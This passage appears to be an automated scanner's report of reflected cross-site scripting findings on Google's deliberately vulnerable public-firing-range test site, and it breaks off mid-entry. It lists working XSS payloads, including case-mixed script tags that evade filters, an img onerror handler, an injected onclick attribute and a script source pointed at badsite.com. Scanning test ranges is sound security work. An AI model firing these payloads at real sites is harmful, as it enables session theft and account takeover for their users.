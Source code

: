 * URL: https://public-firing-range.appspot.com/reflected/escapedparameter/js_eventhandler_unquoted/UNQUOTED_ATTRIBUTE%3Fq=%253Balert%25281%2529
  * Method: `GET`
  * Parameter: `q`
  * Attack: `;alert(1)`
  * Evidence: `;alert(1)`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredcharsets/attribute_unquoted/DoubleQuoteSinglequote%3Fq=%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `><scrIpt>alert(1);</scRipt>`
  * Evidence: `><scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredcharsets/body/SpaceDoubleQuoteSlashEquals%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredstrings/body/caseInsensitive/script%3Fq=%253Cimg+src%253Dx+onerror%253Dprompt%2528%2529%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<img src=x onerror=prompt()>`
  * Evidence: `<img src=x onerror=prompt()>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/filteredstrings/body/caseSensitive/script%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_name%3Fq=accesskey%253D%2527x%2527+onclick%253D%2527alert%25281%2529%2527+b
  * Method: `GET`
  * Parameter: `q`
  * Attack: `accesskey='x' onclick='alert(1)' b`
  * Evidence: `accesskey='x' onclick='alert(1)' b`
  * Other Info: `The accesskey attribute specifies a shortcut key to activate/focus an element. This attribute can trigger payloads for non-conventional or custom tags.`
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_quoted%3Fq=%2522%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `"><scrIpt>alert(1);</scRipt>`
  * Evidence: `"><scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_script%3Fq=%2522+src%253Dhttp%253A%252F%252Fbadsite.com
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" src=http://badsite.com`
  * Evidence: `" src=http://badsite.com`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/attribute_singlequoted%3Fq=%2527%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `'><scrIpt>alert(1);</scRipt>`